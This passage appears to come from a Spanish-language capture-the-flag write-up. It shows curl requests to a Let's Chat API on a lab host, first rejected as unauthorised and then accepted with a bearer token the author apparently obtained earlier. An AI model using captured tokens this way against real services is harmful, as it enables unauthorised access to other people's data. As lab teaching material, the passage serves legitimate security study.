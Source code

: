 
## Explotación de la API de Let's Chat

### Consulta inicial (sin autorización)

```bash
curl -s -X GET "http://10.10.11.150:5000/rooms"
```

**Resultado**: Unauthorized

### Consulta con token de autorización

```bash
curl -s -X GET "http://10.10.11.150:5000/rooms" -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
```

![Respuesta de la API](/secciones/posts/imagenes/catch/savesi2.jpg)

### Consulta formateada con jq

```bash
curl -s -X GET "http://10.10.11.150:5000/rooms" -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | jq
```
